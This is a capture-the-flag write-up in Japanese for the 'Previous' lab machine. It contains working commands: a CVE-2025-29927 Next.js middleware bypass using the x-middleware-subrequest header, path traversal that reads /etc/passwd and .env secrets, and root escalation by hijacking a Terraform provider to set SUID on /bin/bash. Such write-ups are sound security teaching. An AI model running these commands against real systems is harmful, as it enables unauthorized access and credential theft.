


## 概要

Next.jsのミドルウェアバイパス脆弱性（CVE-2025-29927）を利用してLFI脆弱性を発見し、認証情報を取得する。その後、Terraformプロバイダーの悪用により権限昇格を行う。

## 1. 攻撃フロー



## 2. user.txt 奪取

### 2.1 偵察

#### Nmap スキャン

```bash
nmap -sC -sV -p- --min-rate 5000 10.10.xx.xx
```


| ポート | サービス | バージョン    |
| ------ | -------- | ------------- |
| 22     | SSH      | OpenSSH 8.9p1 |
| 80     | HTTP     | nginx 1.18.0  |

#### /etc/hosts 設定

```bash
echo "10.10.xx.xx previous.htb" | sudo tee -a /etc/hosts
```

#### Web調査

```bash
whatweb http://previous.htb/
```


| 項目           | 内容                  |
| -------------- | --------------------- |
| サーバー       | nginx/1.18.0 (Ubuntu) |
| フレームワーク | Next.js               |
| メールアドレス | jeremy@previous.htb   |

### 2.2 Next.js バージョン特定

#### main.js からバージョン抽出

```bash
curl -s http://previous.htb/_next/static/chunks/main-0221d9991a31a63c.js | grep -oiE "[0-9]+\.[0-9]+\.[0-9]+" | sort -u
```


**結果:** `15.2.2`

### 2.3 CVE-2025-29927 - Middleware Bypass

#### 認証ページ


#### CVE-2025-29927 影響バージョン

| バージョン        | 状態 |
| ----------------- | ---- |
| Next.js < 14.2.25 | 脆弱 |
| Next.js < 15.2.3  | 脆弱 |

#### 脆弱性の概要

Next.jsのミドルウェアは `x-middleware-subrequest` ヘッダーを使用して内部サブリクエストを識別する。このヘッダーを外部から送信することで、認証ミドルウェアをバイパスできる。

#### 認証バイパス

```bash
curl -s http://previous.htb/docs \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```


認証なしで `/docs` ページにアクセス成功。

### 2.4 アプリケーション構造の調査

#### \_buildManifest.js からルートを取得


### 2.5 LFI (Local File Inclusion)

#### /api/download エンドポイントの発見

`/docs/content/examples` ページの解析からダウンロードAPIを発見。

```bash
curl -s http://previous.htb/docs/content/examples \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```


#### パストラバーサルで /etc/passwd 読み取り

```bash
curl -s "http://previous.htb/api/download?example=../../../etc/passwd" \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```


### 2.6 認証情報の取得

#### /proc/self/cwd について

| パス             | 説明                                   |
| ---------------- | -------------------------------------- |
| `/proc/`         | プロセス情報の仮想ディレクトリ         |
| `/proc/self/cwd` | 作業ディレクトリへのシンボリックリンク |

**利点:** アプリケーションの絶対パスが不明でも、相対的にファイルにアクセス可能

#### .env ファイル取得

```bash
curl -s "http://previous.htb/api/download?example=../../../proc/self/cwd/.env" \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```


```text
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

#### NextAuth 設定ファイル取得

```bash
curl -s "http://previous.htb/api/download?example=../../../proc/self/cwd/.next/server/pages/api/auth/%5B...nextauth%5D.js" \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```


**発見した認証情報:**

| 項目       | 値            |
| ---------- | ------------- |
| ユーザー名 | `jeremy`      |
| パスワード | `MyNameIs***` |

### 2.7 SSH接続 & User Flag

```bash
ssh jeremy@previous.htb

cat ~/user.txt
```

## 3. root.txt 奪取

### 3.1 sudo 権限の確認

```bash
sudo -l
```


```text
User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir=/opt/examples apply
```

### 3.2 Terraform 設定の分析

#### /opt/examples/main.tf

```bash
cat /opt/examples/main.tf
```

```hcl
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}
provider "examples" {}
resource "examples_example" "example" {
  source_path = var.source_path
}
```

プロバイダー名は `examples` → Terraformが探すファイル名は `terraform-provider-examples`

#### ~/.terraformrc

```bash
cat ~/.terraformrc
```

```hcl
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/usr/local/go/bin"
  }
  direct {}
}
```

`previous.htb/terraform/examples` プロバイダーは `/usr/local/go/bin` から読み込まれる。

### 3.3 Terraform Provider Hijacking

#### 攻撃の仕組み



#### .terraformrcの書き換え

```bash
cat > ~/.terraformrc << 'EOF'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/jeremy/"
  }
  direct {}
}
EOF
```


#### 悪意のあるプロバイダー作成

```bash
cat > ~/terraform-provider-examples << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF

chmod +x ~/terraform-provider-examples
```


#### Terraform 実行 & SUID 確認

```bash
sudo /usr/bin/terraform -chdir=/opt/examples apply
```


### 3.4 Root シェル取得

#### Root 取得

```bash
/bin/bash -p
```

| オプション | 説明                                     |
| ---------- | ---------------------------------------- |
| `-p`       | 特権モード。SUID時に実効ユーザーIDを維持 |

#### Root Flag

```bash
cat /root/root.txt
```

## まとめ

### 使用した脆弱性

| フェーズ     | 脆弱性/技術                  | CVE/詳細                        |
| ------------ | ---------------------------- | ------------------------------- |
| 偵察         | ポートスキャン               | Nmap, whatweb                   |
| 初期アクセス | Middleware Bypass            | CVE-2025-29927                  |
| 初期アクセス | Local File Inclusion         | パストラバーサル                |
| 権限昇格     | Terraform Provider Hijacking | 環境変数 + カスタムプロバイダー |

**参考：**

- [CVE-2025-29927 - Next.js Middleware Bypass](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)
